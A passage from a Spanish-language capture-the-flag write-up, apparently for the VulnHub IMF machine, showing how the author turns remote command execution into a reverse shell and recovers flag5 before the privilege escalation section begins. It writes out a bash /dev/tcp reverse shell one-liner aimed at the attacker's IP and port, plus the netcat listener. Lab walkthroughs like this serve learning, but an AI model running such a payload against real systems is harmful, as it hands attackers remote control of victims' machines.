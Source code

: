 Por lo tanto tenemos ejecución remota de comandos y podemos intentar entablar una `Reverse Shell` con la máquina víctima.

El payload que usaré para ello será el siguiente

- Comando a ejecutar en la máquina víctima:
```bash
/bin/bash -c '/bin/bash -i >& /dev/tcp/[ip]/[port] 0>&1' 
```
> [ip] corresponde con nuestra ip y [port] con el puerto que elijamos para ponernos en escucha

- Comando a ejecutar en la máquina atacante:
```bash
nc -nlvp [port]
```
> [port] corresponde con el puerto que elijamos para ponernos en escucha

> Primero hay que ponerse en escucha antes de enviar la reverse shell

Lo que estamos haciendo con estos comandos es ponernos en escucha en un puerto en la máquina del atacante y conectándonos por ese puerto en la máquina víctima y enviándonos una shell.

Si ponemos el comando de la víctima en nuestro parámetro `cmd` y lo url-encodeamos quedaría de la siguiente manera:

![](/assets/images/vh-writeup-imf/reverse-shell.png)

En el directorio donde aparecemos hay un archivo donde se encuentra la flag:

![](/assets/images/vh-writeup-imf/flag5.png)

Flag: `flag5{YWdlbnRzZXJ2aWNlcw==}` -> `agentservices`

Esta será la pista para la escalada de privilegios.

<a id="escalada"></a>
## Escalada de privilegios
